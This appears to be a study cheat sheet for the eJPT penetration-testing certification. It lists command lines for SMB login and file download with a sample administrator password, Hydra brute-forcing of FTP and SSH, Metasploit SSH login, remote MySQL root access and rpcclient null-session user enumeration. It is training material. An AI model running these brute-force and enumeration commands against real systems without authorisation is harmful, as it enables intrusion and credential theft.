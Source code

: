 # EJPT
##Notes and commands cheat sheet for the EJPT##


SMBMap

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

Brute forcing FTP using Hydra

```hydra -L (Username list) -P (Password list) (IP Address) ftp```

SSH - Getting SSH host key using Nmap

```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

Brute Forcing SSH with Hydra

```hydra -L (username) -P (password list) (IP address) ssh```

Brute Forcing SSH login with Metasploit

```Use ssh/ssh_login```

**MYSQL**

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Using database

```show databases ---then type semicolon```

```use (database name);```

```select count(*) from authors;```

``select * from authors```

RPCClient

```rpcclient -U "" -N 192.168.0.0```
Useful commanands within
Enumdomusers
Lookupnames -- example lookupnames admin
